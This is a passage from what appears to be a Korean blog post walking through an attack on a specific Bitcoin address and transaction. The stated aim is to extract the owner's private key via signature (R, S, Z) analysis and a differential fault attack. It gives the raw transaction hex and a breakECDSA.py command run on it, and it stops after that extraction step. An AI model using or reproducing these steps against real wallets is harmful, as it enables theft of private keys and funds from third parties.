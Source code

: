 

<p>자세한 암호 분석을 통해 동일한 비트코인 ​​주소에 대해&nbsp;<strong><a href="https://btc1.trezor.io/tx/f4a5275858cadcb6c2d2d605fcfe6b192560a2a18d9317c22bc37b77b6533ed6" target="_blank" rel="noreferrer noopener">f4a5275858cadcb6c2d2d605fcfe6b192560a2a18d9317c22bc37b77b6533ed6</a></strong>&nbsp;에서 치명적인 취약점도 발견했습니다.<strong><code>&nbsp;TXID:</code></strong><strong><a href="https://btc1.trezor.io/tx/f4a5275858cadcb6c2d2d605fcfe6b192560a2a18d9317c22bc37b77b6533ed6" target="_blank" rel="noreferrer noopener"></a></strong></p>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>공격을 위한 RawTX 준비</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/12bXHGbbWeqyixHpNjeSmq271ennbLRXh9" target="_blank" rel="noreferrer noopener">12bXHGbbWeqyixHpNjeSmq271ennbLRXh9</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/f4a5275858cadcb6c2d2d605fcfe6b192560a2a18d9317c22bc37b77b6533ed6
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/11/image-43-1024x140.png" alt="우리는 비밀 키를 추출하기 위해 Eli Biham과 Adi Shamir의 연구 계획에 따라 차등 오류가 있는 Bitcoin에 WhiteBox 공격을 구현합니다." class="wp-image-1641"/></figure>



<pre class="wp-block-code"><code>RawTX = 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000
</code></pre>



<h2>이제 모든 취약한 트랜잭션에서 모든 R, S, Z 값을 가져와야 합니다.</h2>



<p>breakECDSA.py 스크립트를 사용해봅시다.</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001794e79fc042a7644cc4deb6e7858416dd8b898fe418b2894f8d3772ce8d132a0180000006a473044022048771a103dbc561b895d573a9b706b98f643701466de15980fa712b544554ba502202756e42292c841ccfef832138c52f66f7e03b7f2f86cf3fb4d7fd43d6a526be701210262c3a8791c0e44cd389ebe51c156b5aac490cddef3536638abf8863d55190adbffffffff010c03000000000000232103d68f90ba81455256cb7a0df14fb3930d6df61393207f2f3e71659414d296e0f0ac00000000
</code></pre>


